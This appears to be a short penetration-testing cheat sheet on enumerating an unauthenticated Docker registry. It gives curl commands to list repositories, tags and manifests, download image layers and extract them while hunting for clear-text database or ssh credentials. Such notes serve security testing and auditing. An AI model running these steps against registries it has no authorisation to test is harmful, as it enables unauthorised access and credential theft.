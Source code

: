 # DOCKER REGISTRY

## Tools: Postman, Insomnia, Browsers

### Default port: 5000 (Not always the case)

#### Docker registries are JSON endpoitns, so the interaction is quite different from a normal website.

####

## REPOSITORY DISCOVERY

### We may find plain text credentials or any other sensitive information of outdated repositories that haven't been taken down yet. So we can just get them via a GET request.

## EXAMPLE:

#### 1) curl http://IP_ADDRESS:5000/v2/_catalog (List repositories)

#### 2) curl http://IP_ADDRESS:5000/v2/REPOSITORY/tags/list (List manifests)

#### 3) curl http://IP_ADDRESS:5000/v2/REPOSITORY/manifests/latest (Pull the manifests for the image)

#### On step 3 you can also check for any clear-text credentials for a database or ssh etc.

#### 4) curl -s http://IP_ADDRESS:5000/v2/REPOSITORY/blobs/sha256:HASH -output ARCHIVE.tar (Pull all layers of the image and save them in the form of .tar file)

#### 5) tar -xvf ARCHIVE.tar ( Decompress the file to see the contents )
